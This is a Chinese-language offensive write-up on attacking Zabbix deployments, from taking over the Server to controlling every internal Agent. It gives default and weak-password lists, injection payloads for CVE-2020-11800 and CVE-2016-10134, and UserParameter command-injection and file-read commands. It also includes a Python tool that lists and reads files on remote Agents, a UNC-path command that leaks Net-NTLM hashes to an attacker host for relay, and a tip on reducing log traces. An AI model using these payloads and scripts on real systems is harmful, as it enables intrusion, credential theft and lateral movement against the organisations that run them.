





# Zabbix 攻击面挖掘与利用

## 一、简介

Zabbix 是一个支持实时监控数千台服务器、虚拟机和网络设备的企业级解决方案，客户覆盖许多大型企业。本议题介绍了 Zabbix 基础架构、Zabbix Server 攻击面以及权限后利用，如何在复杂内网环境中从 Agent 控制 Server 权限、再基于 Server 拿下所有内网 Agent。

## 二、Zabbix 监控组件

Zabbix 监控系统由以下几个组件部分构成：

### 1\. Zabbix Server

Zabbix Server 是所有配置、统计和操作数据的中央存储中心，也是 Zabbix 监控系统的告警中心。在监控的系统中出现任何异常，将被发出通知给管理员。

Zabbix Server 的功能可分解成为三个不同的组件，分别为 Zabbix Server 服务、Web 后台及数据库。

### 2\. Zabbix Proxy

Zabbix Proxy 是在大规模分布式监控场景中采用一种分担 Zabbix Server 压力的分层结构，其多用在跨机房、跨网络的环境中，Zabbix Proxy 可以代替 Zabbix Server 收集性能和可用性数据，然后把数据汇报给 Zabbix Server，并且在一定程度上分担了 Zabbix Server 的压力。

### 3\. Zabbix Agent

Zabbix Agent 部署在被监控的目标机器上，以主动监控本地资源和应用程序（硬盘、内存、处理器统计信息等）。

Zabbix Agent 收集本地的状态信息并将数据上报给 Zabbix Server 用于进一步处理。

## 三、Zabbix 网络架构

对于 Zabbix Agent 客户端来说，根据请求类型可分为被动模式及主动模式：

-   被动模式：Server 向 Agent 的 10050 端口获取监控项数据，Agent 根据监控项收集本机数据并响应。
-   主动模式：Agent 主动请求 Server (Proxy) 的 10051 端口获取监控项列表，并根据监控项收集本机数据提交给 Server (Proxy)

从网络部署架构上看，可分为 Server-Client 架构、Server-Proxy-Client 架构、Master-Node-Client 架构：

-   Server-Client 架构

最为常见的 Zabbix 部署架构，Server 与 Agent 同处于内网区域，Agent 能够直接与 Server 通讯，不受跨区域限制。  


-   Server-Proxy-Client 架构

多数见于大规模监控需求的企业内网，其多用在跨机房、跨网络的环境，由于 Agent 无法直接与位于其他区域的 Server 通讯，需要由各区域 Proxy 代替收集 Agent 数据然后再上报 Server。  


## 四、Zabbix Agent 配置分析

从进程列表中可判断当前机器是否已运行 zabbix\_agentd 服务，Linux 进程名为 `zabbix_agentd`，Windows 进程名为 `zabbix_agentd.exe`。

Zabbix Agent 服务的配置文件为 `zabbix_agentd.conf`，Linux 默认路径在 `/etc/zabbix/zabbix_agentd.conf`，可通过以下命令查看 agent 配置文件并过滤掉注释内容：

```plain
cat /etc/zabbix/zabbix_agentd.conf | grep -v '^#' | grep -v '^$'
```

首先从配置文件定位 zabbix\_agentd 服务的基本信息：

-   **Server 参数**

Server 或 Proxy 的 IP、CIDR、域名等，Agent 仅接受来自 Server 参数的 IP 请求。

```plain
Server=192.168.10.100
```

-   **ServerActive 参数**

Server 或 Proxy 的 IP、CIDR、域名等，用于主动模式，Agent 主动向 ServerActive 参数的 IP 发送请求。

```plain
ServerActive=192.168.10.100
```

-   **StartAgents 参数**

为 0 时禁用被动模式，不监听 10050 端口。

```plain
StartAgents=0
```

经过对 `zabbix_agentd.conf` 配置文件各个参数的安全性研究，总结出以下配置不当可能导致安全风险的配置项：

-   **EnableRemoteCommands 参数**

是否允许来自 Zabbix Server 的远程命令，开启后可通过 Server 下发 shell 脚本在 Agent 上执行。

**风险样例：**

```plain
EnableRemoteCommands=1
```

-   **AllowRoot 参数**

Linux 默认以低权限用户 zabbix 运行，开启后以 root 权限运行 zabbix\_agentd 服务。

**风险样例：**

```plain
AllowRoot=1
```

-   **UserParameter 参数**

自定义用户参数，格式为 `UserParameter=<key>,<command>`，Server 可向 Agent 执行预设的自定义参数命令以获取监控数据，以官方示例为例：

```plain
UserParameter=ping[*],echo $1
```

当 Server 向 Agent 执行 `ping[aaaa]` 指令时，$1 为传参的值，Agent 经过拼接之后执行的命令为 `echo aaaa`，最终执行结果为 `aaaa`。

command 存在命令拼接，但由于传参内容受 UnsafeUserParameters 参数限制，默认无法传参特殊符号，所以默认配置利用场景有限。

官方漏洞案例可参考 [CVE-2016-4338](https://www.exploit-db.com/exploits/39769) 漏洞。

-   **UnsafeUserParameters 参数**

自定义用户参数是否允许传参任意字符，默认不允许字符 \\ ' " \` \* ? \[\] {} ~ $ ! & ; ( ) < > | # @

**风险样例：**

```plain
UnsafeUserParameters=1
```

当 UnsafeUserParameters 参数配置不当时，组合 UserParameter 自定义参数的传参命令拼接，可导致远程命令注入漏洞。

由 Server 向 Agent 下发指令执行自定义参数，即可在 Agent 上执行任意系统命令。  
以 `UserParameter=ping[*],echo $1` 为例，向 Agent 执行指令 `ping[test && whoami]`，经过命令拼接后最终执行 `echo test && whoami`，成功注入执行 shell 命令。

-   **Include 参数**

加载配置文件目录单个文件或所有文件，通常包含的 conf 都是配置 UserParameter 自定义用户参数。

```plain
Include=/etc/zabbix/zabbix_agentd.d/*.conf
```

## 五、Zabbix Server 攻击手法

除了有利用条件的 Zabbix Agent 漏洞外，默认情况下 Agent 受限于 IP 白名单限制，只处理来自 Server 的请求，所以攻击 Zabbix Agent 的首要途径就是先拿下 Zabbix Server。

经过对 Zabbix Server 攻击面进行梳理，总结出部分攻击效果较好的漏洞：

### 1\. Zabbix Web 后台弱口令

Zabbix 安装后自带 Admin 管理员用户和 Guests 访客用户 (低版本)，可登陆 Zabbiax 后台。

超级管理员默认账号：Admin，密码：zabbix  
Guests 用户，账号：guest，密码为空

### 2\. MySQL 弱口令

从用户习惯来看，运维在配置 Zabbix 时喜欢用弱口令作为 MySQL 密码，且搜索引擎的 Zabbix 配置教程基本用的都是弱口令，这导致实际环境中 Zabbix Server 的数据库密码通常为弱口令。

除了默认 root 用户无法外连之外，运维通常会新建 MySQL 用户 `zabbix`，根据用户习惯梳理了 `zabbix` 用户的常见密码：

```plain
123456
zabbix
zabbix123
zabbix1234
zabbix12345
zabbix123456
```

拿下 MySQL 数据库后，可解密 users 表的密码 md5 值，或者直接替换密码的 md5 为已知密码，即可登录 Zabbix Web。

### 3\. CVE-2020-11800 命令注入

Zabbix Server 的 trapper 功能中 active checks 命令存在 CVE-2020-11800 命令注入漏洞，该漏洞为基于 CVE-2017-2824 的绕过利用。  
未授权攻击者向 Zabbix Server 的 10051 端口发送 trapper 功能相关命令，利用漏洞即可在 Zabbix Server 上执行系统命令。

`active checks` 是 Agent 主动检查时用于获取监控项列表的命令，Zabbix Server 在开启自动注册的情况下，通过 `active checks` 命令请求获取一个不存在的 host 时，自动注册机制会将 json 请求中的 host、ip 添加到 interface 数据表里，其中 CVE-2020-11800 漏洞通过 ipv6 格式绕过 ip 字段检测注入执行 shell 命令，**受数据表字段限制 Payload 长度只能为 64 个字符**。

```plain
{"request":"active checks","host":"vulhub","ip":"ffff:::;whoami"}
```

自动注册调用链：

```plain
active checks -> send_list_of_active_checks_json() -> get_hostid_by_host() -> DBregister_host()
```

`command` 指令可以在未授权的情况下可指定主机 (hostid) 执行指定脚本 (scriptid)，Zabbix 存在 3 个默认脚本，脚本中的 `{HOST.CONN}` 在脚本调用的时候会被替换成主机 IP。

```plain
# scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1
# scriptid == 2 == /usr/bin/traceroute {HOST.CONN} 2>&1
# scriptid == 3 == sudo /usr/bin/nmap -O {HOST.CONN} 2>&1
```

scriptid 指定其中任意一个，hostid 为注入恶意 Payload 后的主机 id，但自动注册后的 hostid 是未知的，所以通过 `command` 指令遍历 hostid 的方式都执行一遍，最后成功触发命令注入漏洞。

```plain
{"request":"command","scriptid":1,"hostid":10001}
```

由于默认脚本的类型限制，脚本都是在 Zabbix Server 上运行，Zabbix Proxy 是无法使用 command 指令的。payload 长度受限制可拆分多次执行，必须更换 host 名称以执行新的 payload。

漏洞靶场及利用脚本：[Zabbix Server trapper 命令注入漏洞（CVE-2020-11800）](https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2020-11800)


### 4\. CVE-2017-2824 命令注入

上面小结已详细讲解，CVE-2017-2824 与 CVE-2020-11800 漏洞点及利用区别不大，不再复述，可参考链接：[https://talosintelligence.com/vulnerability\_reports/TALOS-2017-0325](https://talosintelligence.com/vulnerability_reports/TALOS-2017-0325)

漏洞靶场及利用脚本：[Zabbix Server trapper 命令注入漏洞（CVE-2017-2824）](https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2017-2824)

### 5\. CVE-2016-10134 SQL 注入

CVE-2016-10134 SQL 注入漏洞已知有两个注入点：

-   latest.php，需登录，可使用未关闭的 Guest 访客账号。

```plain
/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```



-   jsrpc.php，无需登录即可利用。

利用脚本：[https://github.com/RicterZ/zabbixPwn](https://github.com/RicterZ/zabbixPwn)  


漏洞靶场及利用脚本：[zabbix latest.php SQL 注入漏洞（CVE-2016-10134）](https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2016-10134)

## 六、Zabbix Server 权限后利用

拿下 Zabbix Server 权限只是阶段性的成功，接下来的问题是如何控制 Zabbix Agent 以达到最终攻击目的。

Zabbix Agent 的 10050 端口仅处理来自 Zabbix Server 或 Proxy 的请求，所以后续攻击都是依赖于 Zabbix Server 权限进行扩展，本章节主要讲解基于监控项 item 功能的后利用。

> 在 zabbix 中，我们要监控的某一个指标，被称为 “监控项”，就像我们的磁盘使用率，在 zabbix 中就可以被认为是一个 “监控项”(item)，如果要获取到 “监控项” 的相关信息，我们则要执行一个命令，但是我们不能直接调用命令，而是通过一个 “别名” 去调用命令，这个 “命令别名” 在 zabbix 中被称为 “键”(key)，所以在 zabbix 中，如果我们想要获取到一个 “监控项” 的值，则需要有对应的 “键”，通过 “键” 能够调用相应的命令，获取到对应的监控信息。

以 Zabbix 4.0 版本为例，按照个人理解 item 监控项可分为**通用监控项、主动检查监控项、Windows 监控项、自定义用户参数 (UserParameter) 监控项**，Agent 监控项较多不一一例举，可参考以下链接：  
[1\. Zabbix Agent 监控项](https://www.zabbix.com/documentation/4.0/zh/manual/config/items/itemtypes/zabbix_agent)  
[2\. Zabbix Agent Windows 监控项](https://www.zabbix.com/documentation/4.0/zh/manual/config/items/itemtypes/zabbix_agent/win_keys)

在控制 Zabbix Server 权限的情况下可通过 zabbix\_get 命令向 Agent 获取监控项数据，比如说获取 Agent 的系统内核信息：

```plain
zabbix_get -s 172.21.0.4 -p 10050 -k "system.uname"
```


结合上述知识点，针对 item 监控项的攻击面进行挖掘，总结出以下利用场景：

### 1\. EnableRemoteCommands 参数远程命令执行

Zabbix 最为经典的命令执行利用姿势，许多人以为控制了 Zabbix Server 就肯定能在 Agent 上执行命令，其实不然，Agent 远程执行系统命令需要在 `zabbix_agentd.conf` 配置文件中开启 EnableRemoteCommands 参数。

在 Zabbix Web 上添加脚本，“执行在” 选项可根据需求选择，**“执行在 Zabbix 服务器” 不需要开启 EnableRemoteCommands 参数，所以一般控制 Zabbix Web 后可通过该方式在 Zabbix Server 上执行命令拿到服务器权限。**  


如果要指定某个主机执行该脚本，可从 Zabbix Web 的 “监测中 -> 最新数据” 功能中根据过滤条件找到想要执行脚本的主机，单击主机名即可在对应 Agent 上执行脚本。

**这里有个常见误区，如果类型是 “执行在 Zabbix 服务器”，无论选择哪台主机执行脚本，最终都是执行在 Zabbix Server 上。**

如果类型是 “执行在 Zabbix 客户端”，Agent 配置文件在未开启 EnableRemoteCommands 参数的情况下会返回报错。  


Agent 配置文件在开启 EnableRemoteCommands 参数的情况下可成功下发执行系统命令。  


如果不想在 Zabbix Web 上留下太多日志痕迹，或者想批量控制 Agent，拿下 Zabbix Server 权限后可以通过 zabbix\_get 命令向 Agent 执行监控项命令，**在 Zabbix Web 执行脚本实际上等于执行 system.run 监控项命令**。

也可以基于 Zabbix Server 作为隧道跳板，在本地执行 zabbix\_get 命令也能达到同样效果（Zabbix Agent 为 IP 白名单校验）。



### 2\. UserParameter 自定义参数命令注入

之前介绍 UserParameter 参数的时候提到过，执行监控项时 UserParameter 参数 command 命令的 $1、$2 等会被替换成 item 传参值，存在命令注入的风险，但默认受 UnsafeUserParameters 参数限制无法传入特殊字符。

当 Zabbiax Agent 的 `zabbix_agentd.conf` 配置文件开启 UnsafeUserParameters 参数的情况下，传参值字符不受限制，只需要找到存在传参的自定义参数 UserParameter，就能达到命令注入的效果。

举个简单案例，在 `zabbix_agentd.conf` 文件中添加自定义参数：

```plain
UserParameter=ping[*],echo $1
```

默认情况下 UnsafeUserParameters 被禁用，传入特殊字符将无法执行命令。  


在 `zabbix_agentd.conf` 文件中添加 `UnsafeUserParameters=1`，command 经过传参拼接后成功注入系统命令。

```plain
zabbix_get -s 172.19.0.5 -p 10050 -k "ping[test && id]"
```


UnsafeUserParameters 参数配置不当问题在监控规模较大的内网里比较常见，内网渗透时可以多留意 Agent 配置信息。

### 3\. 任意文件读取

Zabbix Agent 如果没有配置不当的问题，是否有其他姿势可以利用呢？答案是肯定的。

Zabbix 原生监控项中，`vfs.file.contents` 命令可以读取指定文件，但无法读取超过 64KB 的文件。

```plain
zabbix_get -s 172.19.0.5 -p 10050 -k "vfs.file.contents[/etc/passwd]"
```


**zabbix\_agentd 服务默认以低权限用户 zabbix 运行，读取文件受 zabbix 用户权限限制。开启 AllowRoot 参数情况下 zabbix\_agentd 服务会以 root 权限运行，利用 `vfs.file.contents` 命令就能任意文件读取。**

如果文件超过 64KB 无法读取，在了解该文件字段格式的情况下可利用 `vfs.file.regexp` 命令正则获取关键内容。

### 4\. Windows 目录遍历

Zabbix 原生监控项中，`wmi.get` 命令可以执行 WMI 查询并返回第一个对象，通过 WQL 语句可以查询许多机器信息，以下例举几种利用场景：

-   遍历盘符

由于 `wmi.get` 命令每次只能返回一行数据，所以需要利用 WQL 的条件语句排除法逐行获取数据。

比如 WQL 查询盘符时，只返回了 C:

```plain
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk\"]"
```

通过追加条件语句排除已经查询处理的结果，从而获取下一行数据。

```plain
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk WHERE Name!='C:'\"]"
```

可通过脚本一直追加条件语句进行查询，直至出现 `Cannot obtain WMI information.` 代表 WQL 已经无法查询出结果。从图中可以看到通过 `wmi.get` 命令查询出了该机器上存在 C:、D: 盘符。


-   遍历目录

获取 C: 下的目录，采用条件语句排除法逐行获取。

```plain
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Caption FROM Win32_Directory WHERE Drive='C:' AND Path='\\\\' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Caption FROM Win32_Directory WHERE Drive='C:' AND Path='\\\\' AND Caption != 'C:\\\\\$Recycle.Bin' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Caption FROM Win32_Directory WHERE Drive='C:' AND Path='\\\\' AND Caption != 'C:\\\\\$Recycle.Bin' AND Caption != 'C:\\\\\$WinREAgent' \"]"

...
```


获取 C: 下的文件，采用条件语句排除法逐行获取。

```plain
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' AND Name != 'C:\\\\\$WINRE_BACKUP_PARTITION.MARKER' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' AND Name != 'C:\\\\\$WINRE_BACKUP_PARTITION.MARKER' AND Name !='C:\\\\browser.exe' \"]"

...
```



利用 `wmi.get` 命令进行目录遍历、文件遍历，结合 `vfs.file.contents` 命令就能够在 Windows 下实现任意文件读取。

基于 zabbix\_get 命令写了个 python 脚本，实现 Windows 的列目录、读文件功能。

```plain
import os
import sys

count = 0

def zabbix_exec(ip, command):
    global count
    count = count + 1
    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()
    if "Cannot obtain WMI information" not in check:
        return check.strip()
    else:
        return False

def getpath(path):
    return path.replace("\\","\\\\\\\\").replace("$","\\$")

def GetDisk(ip):
    where = ""
    while(True):
        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")
        if check_disk:
            print(check_disk)
            where = where + "AND Name != '" + check_disk+ "'"
        else:
            break

def GetDirs(ip, dir):
    drive = dir[0:2]
    path = dir[2:]

    where = ""
    while(True):
        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")
        if check_dir:
            print(check_dir)
            where = where + "AND Caption != '" + getpath(check_dir) + "'"
        else:
            break

def GetFiles(ip, dir):
    drive = dir[0:2]
    path = dir[2:]

    where = ""
    while(True):
        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")
        if check_file:
            if "Invalid item key format" in check_file:
                continue
            print(check_file)
            where = where + "AND Name != '" + getpath(check_file) + "'"
        else:
            break

def Readfile(ip, file):
    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")
    print(read)

if __name__ == "__main__":
    if len(sys.argv) == 2:
        GetDisk(sys.argv[1])
    elif sys.argv[2][-1] != "\\":
        Readfile(sys.argv[1], sys.argv[2])
    else:
        GetDirs(sys.argv[1],sys.argv[2])
        GetFiles(sys.argv[1],sys.argv[2])
    
    print("Request count: " + str(count))
```

### 5\. Windows UNC 路径利用

在 Windows Zabbix Agent 环境中，可以利用 `vfs.file.contents` 命令读取 UNC 路径，窃取 Zabbix Agent 机器的 Net-NTLM hash，从而进一步 Net-NTLM relay 攻击。

Window Zabbix Agent 默认安装成 Windows 服务，运行在 SYSTEM 权限下。在工作组环境中，system 用户的 Net-NTLM hash 为空，所以工作组环境无法利用。

在域内环境中，SYSTEM 用户即机器用户，如果是 Net-NTLM v1 的情况下，可以利用 Responder 工具获取 Net-NTLM v1 hash 并通过算法缺陷解密拿到 NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下 Agent 机器权限。

也可以配合 CVE-2019-1040 漏洞，relay 到 ldap 上配置基于资源的约束委派进而拿下 Agent 机器权限。

```plain
zabbix_get -s 192.168.30.200 -p 10050 -k "vfs.file.contents[\\\\192.168.30.243\\cc]"
```




### 6\. Zabbix Proxy 和主动检查模式利用场景

通过 zabbix\_get 工具执行监控项命令只适合 Agent 被动模式且 10050 端口可以通讯的场景（同时 zabbix\_get 命令也是为了演示漏洞方便）。

如果在 Zabbix Proxy 场景或 Agent 主动检查模式的情况下，Zabbix Server 无法直接与 Agent 10050 端口通讯，可以使用比较通用的办法，就是通过 Zabbix Web 添加监控项。

以 UserParameter 命令注入漏洞举例，给指定主机添加监控项，键值中填入监控项命令，信息类型选择文本：  


在最新数据中按照筛选条件找到指定主机，等待片刻就能看到执行结果。  


任意文件读取漏洞也同理：  


**通过 zabbix\_get 工具执行结果最大可返回 512KB 的数据，执行结果存储在 MySQL 上的限制最大为 64KB。**

ps: 添加的监控项会一直定时执行，所以执行完后记得删除监控项。

## 七、参考链接

[https://www.zabbix.com/documentation/4.0/zh/manual/config/items/userparameters](https://www.zabbix.com/documentation/4.0/zh/manual/config/items/userparameters)  
[https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)  
[https://talosintelligence.com/vulnerability\_reports/TALOS-2017-0325](https://talosintelligence.com/vulnerability_reports/TALOS-2017-0325)  
[https://www.zsythink.net/archives/551/](https://www.zsythink.net/archives/551/)
